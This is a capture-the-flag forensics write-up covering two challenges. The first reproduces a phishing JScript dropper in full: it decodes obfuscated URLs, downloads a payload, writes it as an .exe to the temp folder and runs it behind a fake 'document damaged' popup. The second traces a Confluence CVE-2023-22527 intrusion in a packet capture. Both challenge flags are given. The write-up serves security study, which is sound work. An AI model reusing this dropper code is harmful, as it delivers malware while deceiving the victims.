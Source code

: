 ![](assets/Pasted%20image%2020241206164932.png)
# Forensics

{% tabs %}

{% tab title="Glowup" %} 

We managed to retrieve some artifacts from a recent phishing incident. To further investigate the attack we need to analyse the provided document. Examine it and find out what the next steps of the malware are.

### Approach

Checking provided zip file. After extracting it I found artifacts.js file.

![](assets/Pasted%20image%2020241202135134.png)

```javascript
var urls = ["loqKjo3E0dGTl4yfl5mMkYuO0JaKnNGJjtOXkJ2Si5qbjdGJlZ2Jx87MzsvR", "loqKjo3E0dGZm5HTl4rQloqc0Z2NjdGPzYTNkpSRzcfK0baqvIXOnJiLjZ3Kis+QmaGKls2hrYqMz5CZjaHPjaGQzoqhzZDOi5mWgw==", "loqKjo3E0dGdn4ybm4zQloqc0YmO052RkIqbkIrRzpCEjo6Gj8rH0Q==", "loqKjo3E0dGZm5HTl4rQloqc0Z2NjdGPzYTNkpSRzcfK0Q==", "loqKjsTR0YmJidCdnJCQm4mNmpeMm52K0JaKnNGJkYyajoybjY3Ry5LPlY6GysvR", "loqKjo3E0dGVn4yHn4qWn5LQloqc0YmO052RkIqbkIrRzM3P0Q=="],
    activeXObject = "ActiveXObject";

function xd(e, n) {
    for (var t = new Uint8Array(e.length), l = 0; l < e.length; l++) t[l] = e[l] ^ n;
    return t
}

function bnx(e, n) {
    for (var t = atob(e), l = new Uint8Array(t.length), o = 0; o < t.length; o++) l[o] = t.charCodeAt(o);
    return xd(l, n)
}

function dd(e) {
    var n = new activeXObject("MSXML2.XMLHTTP");
    return (n.open("GET", e, !1), n.send(), 200 == n.status) ? n.ResponseBody : null
}

function gop() {
    var e = new activeXObject("Scripting.FileSystemObject"),
        n = "\\" + Math.random().toString(36).substr(2, 9) + ".exe";
    return e.GetSpecialFolder(2) + n
}

function snr(e) {
    var n = gop(),
        t = new activeXObject("ADODB.Stream");
    t.Open(), t.Type = 1, t.Write(e), t.Position = 0, t.SaveToFile(n, 2), t.Close(), new activeXObject("WScript.Shell").Run(n)
}

function start(e, n) {
    WshShell = WScript.CreateObject("WScript.Shell"), Text = atob("VGhlcmUgd2FzIGFuIGVycm9yIG9wZW5pbmcgdGhpcyBkb2N1bWVudC4gVGhlIGZpbGUgaXMgZGFtYWdlZCBhbmQgY291bGQgbm90IGJlIHJlcGFpcmVkIChmb3IgZXhhbXBsZSwgaXQgd2FzIHNlbnQgYXMgYW4gZW1haWwgYXR0YWNobWVudCBhbmQgd2Fzbid0IGNvcnJlY3RseSBkZWNvZGVkKS4"), Title = atob("Tm90IFN1cHBvcnRlZCBGaWxlIEZvcm1hdA=="), Res = WshShell.Popup(Text, 0, Title, 64), n && snr(e)
}
for (var i = 0; i < urls.length; i++) var decodedData = bnx(urls[i], 254),
    data = dd(String.fromCharCode.apply(null, decodedData));
```

I made changes to below function and ran JS online

```js
function dd(e) {
    console.log(e)
    return;
    var n = new activeXObject("MSXML2.XMLHTTP");
    return (n.open("GET", e, !1), n.send(), 200 == n.status) ? n.ResponseBody : null
}
```

This logged below result

```
https://miraigroup.htb/wp-includes/wkcw90205/
https://geo-it.htb/css/q3z3ljo394/HTB{0bfusc4t1ng_th3_Str1ngs_1s_n0t_3n0ugh}
https://career.htb/wp-content/0nzppxq49/
https://geo-it.htb/css/q3z3ljo394/
http://www.cbnnewsdirect.htb/wordpress/5l1kpx45/
https://karyathal.htb/wp-content/231/
```

And found the flag `HTB{0bfusc4t1ng_th3_Str1ngs_1s_n0t_3n0ugh}`

## Merging rivers

We have noticed lately that some Pages in our Knowledge base have been altered and reflected bad practices! We have checked our Confluence users but we didn't find anything out of place... However, we did have a network capture somewhere that might be of help! Can you help us out by finding how the attacker managed to get access to our Knowledge base? Hopefully when found, we can fix it so it wont happen again!

### Approach

Extracted given zip file. Got capture.pcapng file

![](Pasted%20image%2020241202135547.png)

Checking http protocol as description says this is regarding confluence page.

![](Pasted%20image%2020241202141245.png)

After checking some packets, it was clear that attacker was abusing `CVE-2023-22527`. 
After going through all http packets lastly I found the packet where attacker was trying to get RCE.

![](Pasted%20image%2020241202141540.png)

After decoding the `jwt.private.key` I found the flag.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ echo SFRCe0FuMHRoM3JfZDR5XzRuMHRoM3JfYzBuZmx1M25jM19SQzMhIX0= | base64 -d
HTB{An0th3r_d4y_4n0th3r_c0nflu3nc3_RC3!!}
```

